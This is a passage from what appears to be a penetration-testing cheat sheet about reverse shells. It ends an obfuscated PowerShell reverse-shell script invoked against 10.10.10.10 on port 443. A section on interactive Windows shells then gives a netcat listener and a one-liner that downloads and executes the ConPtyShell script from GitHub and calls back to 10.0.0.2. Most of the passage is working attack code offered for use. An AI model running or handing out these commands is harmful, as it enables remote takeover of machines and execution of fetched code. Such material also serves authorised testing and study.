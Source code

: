 ```
            }
            $GFGFGBbvbgrefdf  = $Poec56fd345 + 'PS ' + (Get-Location).Path + '> '
            $ggh45RedCzIk = ($error[0] | Out-String)
            $error.clear()
            $GFGFGBbvbgrefdf = $GFGFGBbvbgrefdf + $ggh45RedCzIk

            $sendbyte = ([text.encoding]::ASCII).GetBytes($GFGFGBbvbgrefdf)
            $zrt54789dvbgH.Write($sendbyte,0,$sendbyte.Length)
            $zrt54789dvbgH.Flush()  
        }
        $dGtrfokiudfjhvnjfe.Close()
        if ($eDDfh987654567)
        {
            $eDDfh987654567.Stop()
        }
    }
    catch
    {
        Write-Warning "Something wrong!" 
        Write-Error $_
    }
}

Invoke-Shell -Reverse -world 10.10.10.10 -CountrY 443
```

## Fully Interactive Shell on Windows

Pseudo Console (ConPty) in Windows has improved the way Windows handles terminals.

**ConPtyShell uses the function** [**CreatePseudoConsole()**](https://docs.microsoft.com/en-us/windows/console/createpseudoconsole)**.**&#x20;

* This function is available since Windows 10 / Windows Server 2019 version 1809 (build 10.0.17763).

Server Side:

```
stty raw -echo; (stty size; cat) | nc -lvnp 3001
```

Client Side:

```
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.2 3001
```

Offline version of the ps1 available at:

{% embed url="https://github.com/antonioCoco/ConPtyShell/blob/master/Invoke-ConPtyShell.ps1" %}



